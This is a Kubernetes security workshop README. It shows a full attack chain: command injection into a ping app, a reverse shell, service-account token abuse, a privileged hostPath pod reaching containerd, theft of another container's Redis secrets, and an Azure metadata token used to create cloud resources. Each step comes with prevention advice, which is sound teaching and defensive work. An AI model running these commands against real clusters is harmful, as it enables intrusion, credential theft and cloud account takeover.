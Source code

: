 # Hijack Kubernetes Hands-on
## Play with the sample app

<details>
<summary>Show me the details</summary>

The sample application "ping me" pings a target specified via the input field. Try the following inputs:

```bash
127.0.0.1

127.0.0.1; echo "I was here"

; which bash
```

<details>
<summary>Details on how to input the snippets</summary>

1. Let's try to inject a command after the IP address: `127.0.0.1; echo "I was here"`. As you can see in the answer, it worked.
2. Now we try whether `bash` is available: `; which bash`. And it is! Looks like we can try to hijack the container.

</details>

<details>
<summary>How to prevent this attack</summary>

* Shift security left and enable [SAST scanning](https://owasp.org/www-community/Source_Code_Analysis_Tools)
* Build secure/small container images ([distroless](https://github.com/GoogleContainerTools/distroless), less is more)

</details>
</details>

## Hijack the container

<details>
<summary>Show me the details</summary>

We now inject into the container via a reverse shell. Try to execute the following snippets:

On your attacker machine:

```bash
sudo nc -lnvp 80
```

Input for the app (change your IP):

```bash
; bash -c 'bash -i >& /dev/tcp/0.0.0.0/80 0>&1'
```

<details>
<summary>Details on how to hijack the container</summary>

1. We will open a connection on our attacker machine using netcat: `sudo nc -lnvp 80`
2. Now we inject the required command into our container. This will allow us to connect a reverse shell to our open connection: `; bash -c 'bash -i >& /dev/tcp/0.0.0.0/80 0>&1'`.
3. And finally, we have a reverse shell up and running. Try some commands like `ls`

</details>

<details>
<summary>How to prevent this attack</summary>

* Build secure/small container images ([distroless](https://github.com/GoogleContainerTools/distroless), less is more)
* Do not run workload as root
* Deny egress network access on a network level as well as using [Kubernetes Network Policies](https://kubernetes.io/docs/concepts/services-networking/network-policies/)
* Detect untrusted process with container runtime security tools like [Falco](https://github.com/falcosecurity/falco)

</details>
</details>

## Get access to the Kubernetes API

<details>
<summary>Show me the details</summary>

Let's see if we can access the API server. Execute the following snippets:

```bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
CA=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api

NS=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)
curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api/v1/namespaces/$NS/pods

curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod +x kubectl; mv kubectl /usr/bin/

kubectl get pods
kubectl get pods -A
kubectl get nodes

kubectl auth can-i create pod
```

<details>
<summary>Details on how to access the Kubernetes API server</summary>

Let's see if we can access the API server.

```bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
CA=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt

curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api
```

It looks like we were able to authenticate and have some access. Now let's check if we have access to other pods in our namespace:

``` bash
NS=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)

curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api/v1/namespaces/$NS/pods
```

This looks good! Let's install `kubectl` for easier access:

```bash
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod +x kubectl; mv kubectl /usr/bin/
```

Let's see what we are allowed to do:

```bash
kubectl get pods
kubectl get pods -A
kubectl get nodes

kubectl auth can-i create pod
```

</details>

<details>
<summary>How to prevent this attack</summary>

* Do not share service accounts between applications
* Do not enable higher access levels for the default service account (this app would not have needed it!)
* Review all third-party snippets before deploying them
* Use read-only filesystems
* Things we already talked about
  * Limit egress access to the internet
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>
</details>

## Hijack the Kubernetes Node

<details>
<summary>Show me the details</summary>

Let's try one more thing. Are we able to schedule a privileged pod and "talk" to containerd? Run the following snippets:

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: privileged-pod
  namespace: default
spec:
  containers:
  - name: shell
    image: ubuntu:latest
    stdin: true
    tty: true
    volumeMounts:
    - mountPath: /mnt
      name: volume
    securityContext:
      privileged: true
  volumes:
  - name: volume
    hostPath:
      path: /run/containerd
EOF

kubectl exec -it -n default privileged-pod -- /bin/bash

apt-get update; apt-get install -y curl jq

curl -LO https://github.com/containerd/containerd/releases/download/v1.5.5/cri-containerd-cni-1.5.5-linux-amd64.tar.gz; tar -xvf cri-containerd-cni-1.5.5-linux-amd64.tar.gz

ctr --address /mnt/containerd.sock --namespace k8s.io container list

```

<details>
<summary>Details on how to hijack the node</summary>

Let's try to create a privileged pod and "talk" to containerd:

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: privileged-pod
  namespace: default
spec:
  containers:
  - name: shell
    image: ubuntu:latest
    stdin: true
    tty: true
    volumeMounts:
    - mountPath: /mnt
      name: volume
    securityContext:
      privileged: true
  volumes:
  - name: volume
    hostPath:
      path: /run/containerd
EOF
```

Then we need to attach to the pod:

```bash
kubectl exec -it -n default privileged-pod /bin/bash
```

Now we can try to install some basics as well as the containerd CLI and talk to the containerd socket:

```bash
apt-get update; apt-get install -y curl jq

curl -LO https://github.com/containerd/containerd/releases/download/v1.5.5/cri-containerd-cni-1.5.5-linux-amd64.tar.gz; tar -xvf cri-containerd-cni-1.5.5-linux-amd64.tar.gz

ctr --address /mnt/containerd.sock --namespace k8s.io container list
```

</details>

<details>
<summary>How to prevent this attack</summary>

* Deny running root containers (Tools like [OPA Gatekeeper](https://github.com/open-policy-agent/gatekeeper) and [Kyverno](https://github.com/kyverno/kyverno) can help)
* Deny hostPath mounts
* Things we already talked about
  * Do not share service accounts
  * Limit egress access to the internet
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>
</details>

## Access secrets and data from another container

<details>
<summary>Show me the details</summary>

We will now try to retrieve secrets from a container that we do not have access to (via Kubernetes):

```bash
id=$(ctr --address /mnt/containerd.sock --namespace k8s.io container list | grep "docker.io/library/nginx" | awk '{print $1}')

ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq .Spec.process.env
```


With those secret we can now connect to the Redis instance and retrieve some data:

```bash
apt-get install -y redis-tools

REDIS_HOST=$(ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq -r .Spec.process.env[] | grep REDIS_HOST | sed 's/^.*=//')
REDIS_KEY=$(ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq -r .Spec.process.env[] | grep REDIS_KEY | sed 's/^.*REDIS_KEY=//')

redis-cli -h $REDIS_HOST -a $REDIS_KEY get data
```

<details>
<summary>Details on how to access the secrets</summary>

We will use the containerd CLI to access details of a container running on this node.

First we will retrieve the container ID:

```bash
id=$(ctr --address /mnt/containerd.sock --namespace k8s.io container list | grep "docker.io/library/nginx" | awk '{print $1}')
```

And then request container runtime details such as environment variables:
```bash
ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq .Spec.process.env
```

With those secret we can now connect to the Redis instance and retrieve some data:

```bash
apt-get install -y redis-tools

REDIS_HOST=$(ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq -r .Spec.process.env[] | grep REDIS_HOST | sed 's/^.*=//')
REDIS_KEY=$(ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq -r .Spec.process.env[] | grep REDIS_KEY | sed 's/^.*REDIS_KEY=//')

redis-cli -h $REDIS_HOST -a $REDIS_KEY get data
```

</details>

<details>
<summary>How to prevent this attack</summary>

* Limit egress access to other cloud resources (Network policies)
* Secure your other cloud resources
* Things we already talked about
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security
  * Deny running root containers (Tools like OPA Gatekeeper and Kyverno can help)
  * Deny hostPath mounts

</details>
</details>

## Hijack Cloud resources

<details>
<summary>Show me the details</summary>

We can also use the underlying cloud identity and try to escape even further. Run the following snippet to get a valid cloud provider token (in our case the Client ID of the underlying Managed Identity):

```bash
mount $(df | awk '{print $1}' | grep "/dev/sd") /tmp

IDENTITY=$(cat /tmp/etc/kubernetes/azure.json | jq -r .userAssignedIdentityID)

TOKEN=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?client_id='$IDENTITY'&api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq -r .access_token)

SUBSCRIPTION=$(cat /tmp/etc/kubernetes/azure.json | jq -r .subscriptionId)
RG=$(cat /tmp/etc/kubernetes/azure.json | jq -r .resourceGroup)

curl -X GET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://management.azure.com/subscriptions/$SUBSCRIPTION/resourcegroups/$RG?api-version=2021-04-01 | jq

STAC=my0stac
curl -X PUT -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --data '{"sku":{"name":"Standard_LRS"},"kind":"StorageV2","location":"westeurope"}' https://management.azure.com/subscriptions/$SUBSCRIPTION/resourcegroups/$RG/providers/Microsoft.Storage/storageAccounts/my0stac?api-version=2018-02-01 | jq
```

<details>
<summary>Details on how to retrieve a Cloud provider token</summary>

First, we need to mount the local node's file system to access the underlying identity ID:

```bash
mount $(df | awk '{print $1}' | grep "/dev/sd") /tmp
```

We can now retrieve the cloud identity used and request a valid token via the cloud metadata service (in our case Azure Instance Metadata Service):

```bash
mount $(df | awk '{print $1}' | grep "/dev/sd") /tmp

IDENTITY=$(cat /tmp/etc/kubernetes/azure.json | jq -r .userAssignedIdentityID)

TOKEN=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?client_id='$IDENTITY'&api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq -r .access_token)

SUBSCRIPTION=$(cat /tmp/etc/kubernetes/azure.json | jq -r .subscriptionId)
RG=$(cat /tmp/etc/kubernetes/azure.json | jq -r .resourceGroup)

curl -X GET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://management.azure.com/subscriptions/$SUBSCRIPTION/resourcegroups/$RG?api-version=2021-04-01 | jq

STAC=my0stac
curl -X PUT -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --data '{"sku":{"name":"Standard_LRS"},"kind":"StorageV2","location":"westeurope"}' https://management.azure.com/subscriptions/$SUBSCRIPTION/resourcegroups/$RG/providers/Microsoft.Storage/storageAccounts/$STAC?api-version=2018-02-01 | jq
```

We could now use the secret to talk to the cloud provider management plane (in this case Azure Resource Manager) and try to create or access further resources. Furthermore we were able to create an Azure Storage Account.

</details>

<details>
<summary>How to prevent this attack</summary>

* Deny access to the Cloud provider metadata service using Network Policies (all Cloud providers!)
* Things we already talked about
  * Deny priviledged containers, host path mounts and other security related settings via Policies
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>
</details>

